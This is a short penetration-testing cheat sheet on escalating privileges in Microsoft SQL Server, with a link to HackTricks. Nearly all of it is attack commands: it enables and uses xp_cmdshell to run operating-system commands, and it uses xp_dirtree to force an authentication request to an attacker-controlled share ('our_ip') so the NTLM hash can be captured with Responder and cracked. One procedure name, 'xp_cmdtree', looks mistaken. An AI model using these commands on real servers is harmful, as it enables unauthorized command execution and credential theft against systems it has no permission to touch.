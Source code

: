 # MSsql Escalation

## Basic Information

select @@version; # version of ms_sql
SELECT is_srvrolemember('sysadmin'); #checks if we are admin
select system_user; # returns the current user in the db


## Try to get access to xp_cmdshell

Use shell commands

	EXEC xp_cmdshell 'net user'; # This allows us to execute commands.
	exec xp_cmdtree 'whoami'; # This allows us to execute commands.


If we cant use it we need to activate it.

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;

## Get NTLM hash

Check if we can do a xp_dirtree

	exec xp_dirtree 'c:\'; # Checks if we can list files
	if this is successful we can now try to do a request back to us
	exec xp_dirtree '\\our_ip\test\test';
	we can check if we receive the request with nc. This request will attempt a ntlm authentication, so we can start responder to get the hash and then try to crack it. The test share and file dont have to exist

## Relevant Information

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server